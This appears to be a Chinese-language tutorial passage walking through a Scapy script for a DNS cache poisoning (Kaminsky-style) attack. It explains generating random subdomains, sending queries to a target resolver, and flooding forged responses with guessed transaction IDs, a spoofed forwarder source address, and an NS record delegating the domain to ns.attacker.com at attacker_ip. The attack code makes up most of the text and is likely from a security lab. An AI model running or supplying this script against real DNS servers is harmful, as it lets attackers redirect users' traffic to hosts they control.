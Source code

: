 ------

### **2. 生成随机子域名**

```python
for _ in range(ATTEMPT_NUM):
    random_substr = ''.join(random.choice(dummy_domain_prefix) for _ in range(8))
    dummy_domain = random_substr + base_domain
    dummy_domain_lst.append(dummy_domain)
```

- 随机生成1000个8位长度的子域名，并附加到 `base_domain`（例如：`abcdef12.test.com`）。
- 这些子域名会被用于发送查询，触发DNS服务器向上游DNS发送请求。

------

### **3. 循环尝试DNS查询和伪造响应**

#### **Step 1：发送真实DNS查询**

```python
for i in range(0, ATTEMPT_NUM):
    cur_domain = dummy_domain_lst[i]
    print(f"url: {cur_domain}")

    IPpkt = IP(dst=target_dns_ip)
    UDPpkt = UDP(sport=33333, dport=target_dns_port)
    DNSpkt = DNS(rd=1, qd=DNSQR(qname=cur_domain))
    query_pkt = IPpkt / UDPpkt / DNSpkt
    send(query_pkt, verbose=0)
```

- **cur_domain**：从 `dummy_domain_lst` 中取出当前要查询的子域名。

- **IP**：设置目标IP地址为 `target_dns_ip`。

- **UDP**：使用 `33333` 作为源端口，目标端口为 `target_dns_port`。

- DNS

  ：

  - `rd=1`：表示递归查询。
  - `qd=DNSQR(qname=cur_domain)`：查询当前子域名。

- **send**：发送查询包到目标DNS服务器。

------

#### **Step 2：发送伪造的DNS响应包**

```python
    for _ in range(100):
        tran_id = random.randint(0, 65535)
        IPpkt = IP(src=forwarder_dns, dst=target_dns_ip)
        UDPpkt = UDP(sport=53, dport=target_dns_port)
        DNSpkt = DNS(
            id=tran_id,
            qr=1,
            aa=1,
            qd=DNSQR(qname=cur_domain),
            an=DNSRR(rrname=cur_domain, rdata=attacker_ip, ttl=300),
            ns=DNSRR(rrname=base_domain, type="NS", rdata="ns.attacker.com"),
            ar=DNSRR(rrname="ns.attacker.com", rdata=attacker_ip)
        )
        response_pkt = IPpkt / UDPpkt / DNSpkt
        send(response_pkt, verbose=0)
```
